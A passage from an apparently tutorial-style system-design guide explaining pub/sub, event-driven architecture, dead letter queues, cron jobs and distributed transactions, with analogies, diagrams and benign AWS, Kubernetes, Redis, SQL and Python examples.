TOPIC_ARN = "arn:aws:sns:us-east-1:123456789012:order-events"

# Publish ONCE. SNS copies the message to every subscribed queue.
sns.publish(
    TopicArn=TOPIC_ARN,
    Message=json.dumps({"order_id": "ord_981", "total_cents": 5990, "country": "IN"}),
    MessageAttributes={
        "event_type": {"DataType": "String", "StringValue": "OrderPlaced"},
    },
)
```

A **filter policy** set on the email team's subscription, so it only gets the events it needs:

```json
{
  "event_type": ["OrderPlaced", "OrderCancelled"]
}
```

And Redis Pub/Sub, to see "fire-and-forget" for yourself:

```python
import redis

r = redis.Redis()

sub = r.pubsub()
sub.subscribe("room-42")          # must be subscribed BEFORE the publish happens

receivers = r.publish("room-42", "Alice is typing...")
print(receivers)                  # how many subscribers got it right now (0 means lost)

for message in sub.listen():      # first item is the subscribe confirmation
    print(message)
```

**🌍 Real-world usage:** The SNS-to-SQS fan-out is a standard pattern in AWS's own architecture guides. LinkedIn, Uber and Netflix use Kafka topics as a central "event highway" that many teams read from independently. Webhooks from Stripe, GitHub and Shopify are pub/sub over HTTP: you subscribe your URL to events like `payment_intent.succeeded`, `push`, or `orders/create`. Chat and collaboration apps often use Redis Pub/Sub to broadcast real-time signals between the many servers holding users' WebSocket connections.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Queue | One job must be done once by any one worker | Only one reader per message |
| Pub/Sub with durable subscriptions (SNS+SQS, Kafka, Google Pub/Sub) | Many independent teams need the same events | More copies to store; each subscriber must handle duplicates |
| Redis Pub/Sub (fire-and-forget) | Live, throwaway signals | Offline subscribers miss messages; no replay |
| Kafka (log) | Many readers, replay, very high volume | Heavier to run; ordering only per partition |

**⚠️ Common mistakes:**
- Using Redis Pub/Sub for important business events and then losing them during a deploy or reconnect.
- Expecting order across a whole Kafka topic. Order is only guaranteed within one partition, so choose your key carefully.
- Adding more consumers than partitions and wondering why the extra ones do nothing.
- Making one subscriber's slowness everyone's problem. Give each subscriber its own queue or consumer group.
- Publishing internal database rows directly. Publish a clear, documented event shape that you can keep stable.

**🎯 Remember:** Queue = "one of you do this." Pub/Sub = "all of you, this happened." Real systems combine them: fan out to a queue per subscriber.

**🔗 See also:** [#31 Message Queues](#31-message-queues), [#33 Event-Driven Architecture](#33-event-driven-architecture), [#34 Dead Letter Queues](#34-dead-letter-queues)

---

### 33. Event-Driven Architecture

> **In one line:** In an event-driven system, services announce facts like "an order was placed," and other services react on their own, instead of being told what to do.

**🏠 Real-life analogy:** When a baby is born, the hospital does not phone the grandparents, the employer and the government one by one with instructions. The birth is simply recorded as a fact. The family hears and celebrates, the employer starts parental leave, and the government issues a birth certificate. Each one reacts in its own way. Nobody gave them orders; they reacted to a fact.

**❓ What problem does it solve?**
In a "call everyone" design, the order service directly calls payment, inventory, email and analytics, one after another:
- The order service must know every other service and change whenever a new one appears.
- If analytics is slow or down, checkout becomes slow or fails, even though analytics is not critical.
- The chain is long and fragile: five services each 99.9% available give you roughly 99.5% together.

Event-driven architecture (EDA) flips this. The order service records "OrderPlaced" and publishes it. Payment, inventory, email and analytics each subscribe and react. The order service does not know or care who is listening.

**⚙️ How it works:**

**Events vs commands.** This is the key mindset:

| | Command | Event |
|---|---|---|
| Grammar | Imperative: "do this" | Past tense: "this happened" |
| Examples | `ChargeCard`, `SendEmail`, `ReserveStock` | `OrderPlaced`, `PaymentCaptured`, `StockReserved` |
| Receivers | Exactly one, known | Zero, one or many, unknown to the sender |
| Can be rejected? | Yes ("card declined") | No: it is a fact that already happened |
| Coupling | Sender depends on the receiver | Sender does not know who listens |

1. Something happens in a service (a customer places an order).
2. The service saves its data and publishes an event, such as `OrderPlaced`, to a topic or event bus.
3. Every subscribed service gets the event and reacts independently: payment charges the card, inventory reserves stock, email sends a confirmation, analytics updates dashboards.
4. Those reactions may publish new events (`PaymentCaptured`, `StockReserved`), which trigger further reactions.

```mermaid
flowchart LR
    Customer["Customer clicks Buy"] --> OrderSvc["Order Service"]
    OrderSvc -->|"publish OrderPlaced"| Bus["Event Bus<br/>(Kafka, SNS, EventBridge)"]
    Bus --> PaySvc["Payment Service<br/>charges card"]
    Bus --> InvSvc["Inventory Service<br/>reserves stock"]
    Bus --> MailSvc["Email Service<br/>sends confirmation"]
    Bus --> AnaSvc["Analytics<br/>updates dashboards"]
    PaySvc -->|"publish PaymentCaptured"| Bus
```

**Three common event patterns** (names from Martin Fowler's well-known 2017 article "What do you mean by Event-Driven?"):

| Pattern | What the event carries | What consumers do | Example |
|---|---|---|---|
| Event notification | Just an ID and type ("order 981 was placed") | Call back the source service for details if needed | GitHub webhook says "push happened", your CI fetches the code |
| Event-carried state transfer | The full data (items, prices, address) | Keep their own local copy, no call back needed | Shipping service stores the address from `OrderPlaced` |
| Event sourcing | Every change, stored forever as the source of truth | Rebuild current state by replaying events | Bank ledger: balance = sum of all deposits and withdrawals |

**CQRS (Command Query Responsibility Segregation)**, briefly: use one model for writes (commands that change data) and a separate model for reads (queries), kept in sync by events. For example, orders are written to a normalized SQL database, and an `OrderPlaced` consumer builds a fast, denormalized "my orders" view in Elasticsearch or Redis. It is powerful for read-heavy screens but adds moving parts and lag, so use it only where it pays off.

**Choreography vs orchestration** (how a multi-step flow is coordinated):
- **Choreography:** no boss. Each service listens for events and decides what to do next, like dancers who each know their part.
- **Orchestration:** a central **orchestrator** (a coordinator service) sends commands to each service and tracks progress, like a conductor leading an orchestra.

```mermaid
flowchart LR
    subgraph Choreo["Choreography: services react to events"]
        Ord1["Order Svc"] -->|"OrderPlaced"| Pay1["Payment Svc"]
        Pay1 -->|"PaymentCaptured"| Inv1["Inventory Svc"]
        Inv1 -->|"StockReserved"| Ship1["Shipping Svc"]
    end
    subgraph Orch["Orchestration: a conductor sends commands"]
        Conductor["Order Orchestrator"] -->|"ChargeCard (step 1)"| Pay2["Payment Svc"]
        Conductor -->|"ReserveStock (step 2)"| Inv2["Inventory Svc"]
        Conductor -->|"CreateShipment (step 3)"| Ship2["Shipping Svc"]
    end
```

Choreography is simple for 2-4 steps but gets hard to follow as the flow grows ("who reacts to what?"). Orchestration keeps the whole flow in one readable place, at the cost of a central component. Topic #37 goes deeper.

**💻 Example:** A well-shaped event. It has a unique ID (for deduplication), a type in past tense, a version (for schema changes), and a timestamp. This shape is similar to the CNCF CloudEvents standard.

```json
{
  "event_id": "7f1c2a9e-1b2d-4c55-9e1a-2f0d3c4b5a61",
  "event_type": "OrderPlaced",
  "event_version": 2,
  "occurred_at": "2026-10-27T10:15:00Z",
  "producer": "order-service",
  "correlation_id": "req-5b21",
  "data": {
    "order_id": "ord_981",
    "customer_id": "cus_42",
    "items": [{ "sku": "BOOK-123", "qty": 1 }],
    "total_cents": 5990,
    "currency": "INR"
  }
}
```

A consumer that survives duplicates and schema changes, plus a tiny event-sourcing example:

```python
def handle_order_placed(event, db, email):
    # Events arrive at-least-once, so skip ones we have already handled
    if db.already_processed(event["event_id"]):
        return
    data = event["data"]
    # "Tolerant reader": ignore unknown fields, default optional new ones
    gift_note = data.get("gift_note", "")   # added in version 2, missing in version 1
    email.send_receipt(data["customer_id"], data["order_id"], gift_note)
    db.mark_processed(event["event_id"])

# Event sourcing: the list of events IS the data. State is computed from it.
account_events = [
    {"type": "AccountOpened", "amount": 0},
    {"type": "MoneyDeposited", "amount": 100},
    {"type": "MoneyWithdrawn", "amount": 30},
]

def balance(events):
    total = 0
    for e in events:
        if e["type"] == "MoneyDeposited":
            total += e["amount"]
        elif e["type"] == "MoneyWithdrawn":
            total -= e["amount"]
    return total

print(balance(account_events))  # 70
```

**🌍 Real-world usage:** LinkedIn built Kafka to move activity events (page views, clicks) between systems, and Uber and Netflix run event pipelines on Kafka at very large scale. Stripe, GitHub and Shopify expose their platforms as events via webhooks (`payment_intent.succeeded`, `pull_request`, `orders/create`), so your code reacts instead of polling. AWS EventBridge is a managed "event bus" that routes events between AWS services and SaaS apps. Event sourcing ideas are everywhere: bank ledgers and accounting books, and even Git, where the history of commits is the real record and your files are the "current state" built from it.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Loose coupling: add new consumers without touching the producer | Harder debugging: one click becomes many async hops |
| A slow or broken consumer does not block the producer | Eventual consistency: other services update a bit later |
| Natural audit trail and the option to replay history | Event schemas become public contracts that are hard to change |
| Scales well; each service scales on its own | Ordering and duplicates must be designed for |

**Pitfalls in detail:**
- **Debugging:** "Why didn't the customer get an email?" can involve five services and three topics. Pass a `correlation_id` in every event and use distributed tracing (OpenTelemetry) and centralized logs.
- **Eventual consistency** (data in different services agrees *eventually*, not instantly): the order page may show "Paid" a second before the email arrives. Design screens so that is acceptable, for example "We're processing your payment."
- **Schema evolution:** once ten teams read `OrderPlaced`, renaming `total` to `amount` breaks them. Only add optional fields, version events, and use a schema registry (for example Confluent Schema Registry with Avro or Protobuf) that blocks breaking changes.
- **Ordering:** `OrderCancelled` might arrive before `OrderPlaced`. Use the same key (for example `order_id`) so related events share a partition, and make consumers check versions or timestamps.

**⚠️ Common mistakes:**
- Naming events like commands (`SendWelcomeEmail`). That secretly couples the producer to one consumer. Prefer `UserSignedUp`.
- Putting your whole internal database row in the event, including private data (PII) that consumers should not see.
- Making breaking changes to an event's fields without a new version.
- Saving to the database and then publishing the event as two separate steps. A crash in between loses the event (see #36 Transactional Outbox).
- Building an "event spaghetti" where nobody can draw the flow anymore. Document who publishes and who consumes each event.

**🎯 Remember:** Commands say "do this," events say "this happened." Events decouple services, but you pay with eventual consistency, harder debugging, and schemas you must treat as public APIs.

**🔗 See also:** [#32 Pub/Sub](#32-pubsub), [#36 Distributed Transactions](#36-distributed-transactions), [#37 Saga Pattern](#37-saga-pattern), [#29 Idempotency](#29-idempotency)

---

### 34. Dead Letter Queues

> **In one line:** A dead letter queue (DLQ) is a separate "problem pile" where messages go after failing too many times, so they stop blocking everything else and a human can look at them.

**🏠 Real-life analogy:** Post offices have long had a "dead letter office": when a letter cannot be delivered or returned (smudged address, no such street), it is not thrown away and it does not keep circling forever. It goes to a special room where staff can examine it and figure out what to do. A DLQ is that room for your software.

**❓ What problem does it solve?**
Some messages will *never* succeed, no matter how many times you retry. These are called **poison messages**. Examples: malformed JSON, an order that refers to a deleted customer, a field your code does not handle, or simply a bug. Without a DLQ:
- The message is retried forever, wasting compute and filling logs with the same error.
- In a FIFO (ordered) queue or a Kafka partition, it **blocks every message behind it**, so one bad order stops all orders.
- Eventually the queue's retention period expires and the message silently disappears, along with the evidence of what went wrong.

**⚙️ How it works:**
1. The broker counts how many times each message has been received (in SQS this is the `ApproximateReceiveCount` attribute).
2. You set a limit: `maxReceiveCount` (SQS), a delivery limit (RabbitMQ quorum queues), or "max delivery attempts" (Google Cloud Pub/Sub).
3. Each failure (no ack before the visibility timeout ends, or an explicit reject) makes the message available again, and the count goes up.
4. When the count passes the limit, the broker **moves the message to the DLQ** instead of retrying it again.
5. An **alarm** fires when the DLQ is not empty. An engineer **inspects** the messages: Is it bad data? A bug? A downstream outage that has since ended?
6. Fix the cause (deploy a bug fix, correct the data), then **redrive** (move the messages back to the main queue to be processed again). Messages that are truly garbage get recorded and deleted on purpose.

How different tools do it:
- **Amazon SQS:** a *redrive policy* on the source queue points to the DLQ, with `maxReceiveCount`. The console's "Start DLQ redrive" button (or the `StartMessageMoveTask` API) moves messages back.
- **RabbitMQ:** a *dead letter exchange* (`x-dead-letter-exchange` queue argument) receives messages that are rejected without requeue, expire, or overflow the queue length.
- **Kafka:** no built-in DLQ for consumers. Teams create retry topics and a dead-letter topic in application code (Spring Kafka and Kafka Connect provide helpers).
- **Google Cloud Pub/Sub and Azure Service Bus:** built-in dead-letter topics and dead-letter subqueues with a max delivery count.

```mermaid
flowchart LR
    Prod["Producer"] --> Main["Main Queue<br/>orders"]
    Main --> Worker["Consumer"]
    Worker -->|"success, delete"| Done["Processed"]
    Worker -.->|"failure, no ack"| Main
    Main -->|"after maxReceiveCount failures"| DLQ["Dead Letter Queue<br/>orders-dlq"]
    DLQ --> Alarm["Alarm: DLQ not empty"]
    Alarm --> Human["Engineer inspects<br/>and fixes the cause"]
    Human -->|"redrive"| Main
```

The life of one message, as states:

```mermaid
stateDiagram-v2
    [*] --> Visible : producer sends
    Visible --> InFlight : consumer receives
    InFlight --> Deleted : consumer acks
    InFlight --> Visible : timeout or failure
    InFlight --> DeadLettered : too many failed receives
    DeadLettered --> Visible : redrive after the fix
    Deleted --> [*]
```

**💻 Example:** The SQS redrive policy, as plain JSON. After 5 failed receives, the message moves to `orders-dlq`.

```json
{
  "deadLetterTargetArn": "arn:aws:sqs:us-east-1:123456789012:orders-dlq",
  "maxReceiveCount": "5"
}
```

Setting it up end to end with the AWS CLI: create the DLQ, attach the policy, alarm on any message, and redrive after a fix.

```bash
# 1. Create the DLQ. Keep messages 14 days (the max), longer than the main queue.
aws sqs create-queue --queue-name orders-dlq \
  --attributes MessageRetentionPeriod=1209600

# 2. Attach the redrive policy to the main queue (the policy is a JSON string)
aws sqs set-queue-attributes \
  --queue-url https://sqs.us-east-1.amazonaws.com/123456789012/orders \
  --attributes '{"RedrivePolicy":"{\"deadLetterTargetArn\":\"arn:aws:sqs:us-east-1:123456789012:orders-dlq\",\"maxReceiveCount\":\"5\"}"}'

# 3. Page someone as soon as ANY message lands in the DLQ
aws cloudwatch put-metric-alarm --alarm-name orders-dlq-not-empty \
  --namespace AWS/SQS --metric-name ApproximateNumberOfMessagesVisible \
  --dimensions Name=QueueName,Value=orders-dlq \
  --statistic Maximum --period 60 --evaluation-periods 1 \
  --threshold 0 --comparison-operator GreaterThanThreshold \
  --alarm-actions arn:aws:sns:us-east-1:123456789012:oncall-alerts

# 4. After deploying the fix: move the messages back to their source queue
aws sqs start-message-move-task \
  --source-arn arn:aws:sqs:us-east-1:123456789012:orders-dlq
```

Why the longer retention in step 1? For SQS standard queues, a message's expiry is based on when it was *first* sent, not when it reached the DLQ. If both queues keep messages for 4 days, a message that took 3 days to fail has only 1 day left in the DLQ.

**🌍 Real-world usage:** DLQs are built into Amazon SQS, Amazon SNS subscriptions, AWS Lambda (failed async invocations can go to a DLQ or an "on-failure destination"), Google Cloud Pub/Sub, Azure Service Bus and RabbitMQ. Uber Engineering published a well-known 2018 blog post, "Building Reliable Reprocessing and Dead Letter Queues with Apache Kafka," describing retry topics plus a DLQ topic so that one bad message does not block a partition. A common team practice is a "DLQ dashboard" plus a runbook that says exactly how to inspect, fix and redrive.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Low `maxReceiveCount` (1-2) | Failures are almost always permanent (bad data) | A short blip (network timeout) sends good messages to the DLQ |
| Medium (3-10) | Most workloads; rides out short outages | Poison messages waste a few retries first |
| No DLQ (retry forever) | Almost never | Poison messages block ordered queues and burn money |
| Retry topics with growing delays, then DLQ | Kafka, or when downstream outages can last minutes | More topics and code to manage |

**⚠️ Common mistakes:**
- **Letting the DLQ silently fill up.** No alarm means you find out weeks later, when the messages have expired and the data is gone forever. Alert on "DLQ depth above 0" and on the age of the oldest message.
- Giving the DLQ a retention period shorter than or equal to the main queue's.
- Redriving before fixing the bug, so messages bounce straight back into the DLQ (or worse, cause damage again).
- Using a different queue type for the DLQ (an SQS FIFO queue needs a FIFO DLQ).
- Treating the DLQ as a trash can. Every message there is a real customer action that did not happen.

**🎯 Remember:** Retry a few times, then park the poison message in a DLQ, alert loudly, fix, and redrive. A DLQ nobody watches is just a slower way to lose data.

**🔗 See also:** [#31 Message Queues](#31-message-queues), [#26 Retries](#26-retries), [#29 Idempotency](#29-idempotency), [#35 Cron Jobs](#35-cron-jobs)

---


### 35. Cron Jobs

> **In one line:** A cron job is a task that a computer runs automatically on a schedule, like "every night at 2 AM, back up the database."

**🏠 Real-life analogy:** Think of the alarm clock on your phone. You set it once ("7:00 AM, Monday to Friday") and it rings every weekday without you touching it again. But if your phone is switched off at 7:00, the alarm does not ring, and nobody tells you it was missed. Cron jobs behave exactly like this, including that last unpleasant part.

**❓ What problem does it solve?**
Lots of backend work is not triggered by a user. It just needs to happen regularly:
- Nightly database backups and cleanup of old logs or expired sessions.
- Sending a daily summary email at 9 AM or monthly invoices on the 1st.
- Re-syncing data from a partner every 5 minutes, or rebuilding a search index every hour.

Without a scheduler, someone must remember to run these by hand. People forget, go on holiday, and make typos at 2 AM.

**⚙️ How it works:**
1. On Linux, a background program called **cron** (from the Greek *chronos*, time) wakes up every minute.
2. It reads a schedule table called the **crontab**. Each line has five time fields and a command.
3. If the current minute matches a line, cron runs that command.
4. In the cloud, the same idea appears as Kubernetes **CronJob**, AWS EventBridge Scheduler, Google Cloud Scheduler, and GitHub Actions `on: schedule`. They all use the same five-field syntax.

The five fields, left to right:

```mermaid
flowchart LR
    Min["Minute<br/>0-59"] --> Hour["Hour<br/>0-23"]
    Hour --> Dom["Day of month<br/>1-31"]
    Dom --> Mon["Month<br/>1-12"]
    Mon --> Dow["Day of week<br/>0-6, Sunday is 0"]
    Dow --> Cmd["Command<br/>to run"]
```

Special characters: `*` means "every", `*/5` means "every 5th", `1-5` is a range, and `1,15` is a list.

| Expression | Meaning |
|---|---|
| `*/5 * * * *` | Every 5 minutes |
| `0 2 * * *` | Every day at 02:00 |
| `0 9 * * 1-5` | 09:00, Monday to Friday |
| `30 18 1 * *` | 18:30 on the 1st of every month |
| `0 */6 * * *` | Every 6 hours, on the hour (00:00, 06:00, 12:00, 18:00) |
| `0 0 * * 0` | Midnight every Sunday |

**The hard problems** (simple on one laptop, tricky in production):

| Problem | What goes wrong | Fix |
|---|---|---|
| Overlapping runs | The 5-minute job takes 7 minutes, so two copies run at once and double-process data | A lock (`flock` on one machine, a Redis or database lock across machines), or `concurrencyPolicy: Forbid` in Kubernetes |
| Missed runs | The server was down or rebooting at 02:00, so the backup silently never ran | A scheduler that can catch up (`startingDeadlineSeconds`), and heartbeat monitoring |
| Time zones and DST | On daylight-saving change days, local times like 02:30 may not exist or may happen twice, so the job is skipped or runs twice depending on the cron implementation | Run servers and schedules in UTC, or set an explicit time zone and avoid the 01:00-03:00 window |
| Many servers | You put the crontab on all 5 app servers, so the "daily email" goes out 5 times | Run it in one place (a single scheduler), or use a distributed lock or leader election (only one server, the *leader*, is allowed to run it) |
| Non-idempotent jobs | A retry or double run charges customers twice | Make jobs idempotent: "process everything for 2026-10-27 that is not yet marked done" |
| Silent failures | The job crashes every night for a month and nobody notices | Heartbeat ("dead man's switch") monitoring |

**Heartbeat monitoring ("dead man's switch"):** a normal alert fires when something bad *happens*. But a cron job that never starts produces no error at all. So you flip it around: the job pings a monitoring service each time it succeeds, and the service alerts you when an expected ping **does not arrive** in time. Healthchecks.io, Cronitor and Dead Man's Snitch work this way.

```mermaid
sequenceDiagram
    participant S as Scheduler
    participant J as BackupJob
    participant H as HeartbeatMonitor
    participant E as OnCallEngineer
    S->>J: start at 2 AM
    J->>H: ping start
    J->>J: run backup
    J->>H: ping success
    Note over H: Expects one success ping every 24h plus a 1h grace period
    opt No ping arrives in time
        H->>E: Alert - backup did not run
    end
```

**💻 Example:** A classic crontab (edit it with `crontab -e`). `flock -n` skips the run if the previous one still holds the lock, and `curl` pings Healthchecks.io only if the job succeeded.

```bash
# min  hour  dom  mon  dow   command
*/5    *     *    *    *     /opt/app/sync_inventory.sh
0      2     *    *    *     flock -n /var/lock/backup.lock /opt/app/backup.sh && curl -fsS -m 10 --retry 3 https://hc-ping.com/YOUR-CHECK-UUID
0      9     *    *    1-5   /opt/app/send_daily_report.py
```

The same idea as a Kubernetes CronJob:

```yaml
apiVersion: batch/v1
kind: CronJob
metadata:
  name: nightly-report
spec:
  schedule: "0 2 * * *"             # 02:00 every day
  timeZone: "Etc/UTC"               # explicit time zone (stable since Kubernetes 1.27)
  concurrencyPolicy: Forbid         # skip a run if the previous one is still running
  startingDeadlineSeconds: 600      # if we missed the start by more than 10 min, skip it
  successfulJobsHistoryLimit: 3     # keep a few old runs for debugging
  failedJobsHistoryLimit: 5
  jobTemplate:
    spec:
      backoffLimit: 2               # retry a failed pod at most 2 times
      activeDeadlineSeconds: 3600   # kill the job if it runs longer than 1 hour
      template:
        spec:
          restartPolicy: OnFailure
          containers:
            - name: report
              image: ghcr.io/acme/report-job:1.4.2
              command: ["python", "make_report.py"]
```

`concurrencyPolicy` has three values: `Allow` (default: overlaps are allowed), `Forbid` (skip the new run), and `Replace` (stop the old run, start the new one).

If the same code runs on many servers, let only one of them do the work, using a lock that expires on its own:

```python
import socket
import redis

r = redis.Redis(host="redis")
run_key = "lock:nightly-report:2026-10-27"   # one lock per day's run

# SET ... NX EX: only the FIRST server creates the key; it auto-expires after 1 hour
if r.set(run_key, socket.gethostname(), nx=True, ex=3600):
    make_report()
else:
    print("Another server already took this run. Skipping.")
```

**🌍 Real-world usage:** Almost every Linux server runs cron (usually Vixie cron or cronie) or its modern cousin, systemd timers. Kubernetes CronJobs run batch work in clusters. AWS EventBridge Scheduler and Google Cloud Scheduler trigger serverless functions on a schedule. GitHub Actions supports `schedule:` with cron syntax in UTC, and GitHub's docs warn that scheduled runs can be delayed during periods of high load. For complex pipelines with dependencies ("run B after A finishes"), teams use workflow tools like Apache Airflow. App frameworks have their own schedulers: Celery beat (Python), Sidekiq-cron (Ruby), Quartz (Java).

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Plain crontab on one server | Small apps, simple tasks | That server is a single point of failure; no history or alerts |
| Kubernetes CronJob | You already run Kubernetes | Still need monitoring; YAML settings to understand |
| Managed scheduler (EventBridge, Cloud Scheduler) | Serverless or cloud-native apps | Tied to one cloud provider |
| Workflow engine (Airflow, Temporal) | Multi-step jobs with dependencies and retries | Much heavier to run and learn |

**⚠️ Common mistakes:**
- Copying the same crontab to every server behind the load balancer, so every job runs N times.
- Scheduling in local time and getting bitten twice a year by daylight saving time.
- Not monitoring for *missing* runs. "No errors" can simply mean "it never ran."
- Jobs that are not idempotent, so a retry or overlap corrupts data or double-sends.
- Forgetting that cron runs with a minimal environment (different `PATH`, no shell profile), so a script that works in your terminal fails under cron. Use full paths.

**🎯 Remember:** Cron makes things run on time, but it will not tell you when they don't. Use UTC, prevent overlaps, run each job in one place, make jobs idempotent, and add a dead man's switch.

**🔗 See also:** [#31 Message Queues](#31-message-queues), [#34 Dead Letter Queues](#34-dead-letter-queues), [#29 Idempotency](#29-idempotency)

---

### 36. Distributed Transactions

> **In one line:** A distributed transaction tries to make changes in several databases or services succeed together or fail together, which is much harder than it sounds.

**🏠 Real-life analogy:** Buying a house involves several parties: the buyer's bank sends the money, the seller hands over the keys, and the land registry records the new owner. Nobody wants "money sent, but no house." So a lawyer acts as a coordinator: first they ask everyone "Are you ready and committed?" and only when all say yes do they say "Go!" If the lawyer disappears right after everyone said yes, everyone is stuck waiting, unable to back out or move on.

**❓ What problem does it solve?**
First, a quick **ACID** recap. A *transaction* is a group of database changes treated as one unit. A good database gives you:
- **Atomicity:** all of the changes happen, or none do. (Move 100 dollars: debit and credit both happen, or neither.)
- **Consistency:** rules (like "balance can't be negative") are always respected.
- **Isolation:** two transactions running at the same time don't see each other's half-finished work.
- **Durability:** once it says "committed," the data survives a crash or power cut.

Inside **one** database this is easy: `BEGIN ... COMMIT`. But in microservices, an order touches the Orders database, the Payments service, and Kafka. There is no single `COMMIT` across them. Things that go wrong:
- Orders saved, payment charged, then the inventory call times out. Now what? Did it reserve stock or not?
- The **dual-write problem:** you save an order to the database, then publish `OrderPlaced` to Kafka. If the app crashes between those two steps, the order exists but nobody ever hears about it. If you publish first and the database write fails, everyone hears about an order that does not exist.

**⚙️ How it works:**

**Two-Phase Commit (2PC)** is the classic answer. A **coordinator** (transaction manager) talks to every **participant** (each database):
1. **Phase 1, Prepare (voting):** the coordinator asks each participant, "Can you commit?" Each one does the work, writes it durably to its log, locks the rows, and votes YES or NO. A YES is a promise: "I can commit no matter what happens, if you tell me to."
2. **Phase 2, Commit or Abort:** if *everyone* voted YES, the coordinator records the decision and tells all of them to COMMIT. If *anyone* voted NO (or timed out), it tells all of them to ROLL BACK.

```mermaid
sequenceDiagram
    participant C as Coordinator
    participant A as OrdersDB
    participant B as PaymentsDB
    Note over C,B: Phase 1 - Prepare (voting)
    C->>A: PREPARE
    C->>B: PREPARE
    A-->>C: YES (work saved, rows locked)
    B-->>C: YES (work saved, rows locked)
    Note over C,B: Phase 2 - Decision
    alt Everyone voted YES
        C->>A: COMMIT
        C->>B: COMMIT
    else Anyone voted NO or timed out
        C->>A: ROLLBACK
        C->>B: ROLLBACK
    end
```

**The big weakness: 2PC is blocking.** After a participant votes YES, it is not allowed to decide on its own. If the coordinator crashes before sending the decision, participants are stuck "in doubt," holding locks on those rows. Other requests touching the same rows wait too, until the coordinator comes back.

```mermaid
sequenceDiagram
    participant C as Coordinator
    participant A as OrdersDB
    participant B as PaymentsDB
    C->>A: PREPARE
    C->>B: PREPARE
    A-->>C: YES
    B-->>C: YES
    C-xC: crashes before sending the decision
    Note over A,B: Both are in doubt and must keep their locks
    Note over A,B: Other queries on these rows wait until the coordinator recovers
```

**XA** is the standard (from the X/Open group) that lets a transaction manager run 2PC across different "resource managers," such as two databases or a database plus a message broker. Java's JTA uses it. Many relational databases support it (for example PostgreSQL's `PREPARE TRANSACTION` and MySQL's `XA` commands).

**Why microservices usually avoid 2PC:**
- **Availability:** every participant and the coordinator must be up for anything to commit. More services means more ways to block.
- **Locks across the network:** rows stay locked for network round trips, which kills throughput.
- **Not supported:** many tools in a modern stack (Kafka, most NoSQL databases, third-party APIs like Stripe) do not take part in XA transactions.
- **Coupling:** services must share a transaction manager, which breaks the "each service owns its data" idea.

Where 2PC *does* shine: inside distributed databases. Google Spanner, for example, runs two-phase commit across groups of replicas that each use a consensus algorithm (Paxos), so a "participant" never disappears just because one machine died.

**The Transactional Outbox pattern** fixes the dual-write problem without 2PC:
1. In **one local transaction**, write the business row (the order) **and** an "outbox" row describing the event (`OrderPlaced`) into the *same* database. Either both are saved or neither is.
2. A separate **relay** reads new outbox rows and publishes them to the broker. It can **poll** the table, or use **CDC (Change Data Capture**: reading the database's own change log, like the PostgreSQL WAL or MySQL binlog). Debezium is the popular open-source CDC tool, and it ships an "outbox event router" for exactly this.
3. The relay marks rows as sent. If it crashes after publishing but before marking, it publishes again, so consumers must be idempotent (at-least-once again!).

```mermaid
flowchart LR
    App["Order Service"] -->|"same local transaction"| OrdersTbl[("orders table")]
    App -->|"same local transaction"| OutboxTbl[("outbox table")]
    OutboxTbl -->|"poll or read the WAL"| Relay["Relay or CDC<br/>e.g. Debezium"]
    Relay -->|"publish OrderPlaced"| Broker["Kafka / RabbitMQ / SNS"]
    Broker --> PaySvc["Payment Service"]
    Broker --> MailSvc["Email Service"]
```

**💻 Example:** First, PostgreSQL's built-in 2PC building blocks (off by default; `max_prepared_transactions` must be above 0):

```sql
BEGIN;
UPDATE accounts SET balance = balance - 100 WHERE id = 1;
PREPARE TRANSACTION 'transfer-778';   -- phase 1: vote YES, saved to disk, locks kept

-- ...the coordinator waits until every other participant has also prepared...

COMMIT PREPARED 'transfer-778';       -- phase 2 (or: ROLLBACK PREPARED 'transfer-778')
```

Now the outbox pattern. The order and its event are saved atomically:

```sql
BEGIN;
INSERT INTO orders (id, customer_id, total_cents, status)
VALUES ('ord_981', 'cus_42', 5990, 'PLACED');

INSERT INTO outbox (id, aggregate_id, event_type, payload)
VALUES (gen_random_uuid(), 'ord_981', 'OrderPlaced',
        '{"order_id": "ord_981", "total_cents": 5990}');
COMMIT;   -- both rows are saved, or neither is
```

A simple polling relay (Debezium would replace this loop by reading the WAL):

```python
import time

def relay_forever(db, broker):
    while True:
        with db.transaction():
            rows = db.query(
                "SELECT id, aggregate_id, event_type, payload FROM outbox "
                "WHERE published_at IS NULL ORDER BY created_at LIMIT 100 "
                "FOR UPDATE SKIP LOCKED"     # lets several relays run safely
            )
            for row in rows:
                # key = order id, so all events of one order stay in order
                broker.publish("order-events", key=row.aggregate_id,
                               value=row.payload, headers={"type": row.event_type})
                db.execute("UPDATE outbox SET published_at = now() WHERE id = %s",
                           [row.id])
        time.sleep(0.5)
```

**🌍 Real-world usage:** Google Spanner, CockroachDB and YugabyteDB use 2PC-style commit protocols *internally* so you can run normal SQL transactions across machines. Traditional enterprise Java systems (banks, insurers) use XA to commit a database and a JMS message queue together. In microservice shops, the outbox pattern with Debezium and Kafka is a widely used, well-documented recipe for reliably publishing events. Payment APIs like Stripe avoid the need for distributed transactions on the client side by supporting idempotency keys, so a retried request never charges twice.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| One database, local ACID transaction | Whenever you can keep the data together | Doesn't span services |
| 2PC / XA | A few databases that support it, inside one trusted system, low volume | Blocking on coordinator failure, locks held across the network, lower availability |
| Distributed SQL database (Spanner, CockroachDB) | You want ACID across machines without writing the protocol yourself | Cost, higher write latency, vendor or operational complexity |
| Outbox + events | Reliably publish events from a service's own DB | Eventual consistency; consumers must deduplicate |
| Saga (#37) | Business processes across many services | No isolation; you must write compensating actions |

**⚠️ Common mistakes:**
- Writing to the database and then publishing to Kafka as two independent steps (the dual-write problem) and hoping nothing crashes in between.
- Reaching for 2PC across microservices "because we need consistency," then suffering lock contention and outages.
- Forgetting that the outbox relay is at-least-once, so consumers see duplicates.
- Letting the outbox table grow forever. Delete or archive published rows on a schedule.
- Assuming "the HTTP call timed out" means "it didn't happen." It may have succeeded. Use idempotency keys and check status.

**🎯 Remember:** ACID is easy inside one database and hard across many. 2PC gives all-or-nothing but blocks when the coordinator dies, so microservices use the outbox pattern (reliable events) plus sagas (business-level undo) instead.

**🔗 See also:** [#37 Saga Pattern](#37-saga-pattern), [#33 Event-Driven Architecture](#33-event-driven-architecture), [#31 Message Queues](#31-message-queues), [#29 Idempotency](#29-idempotency)

---

### 37. Saga Pattern

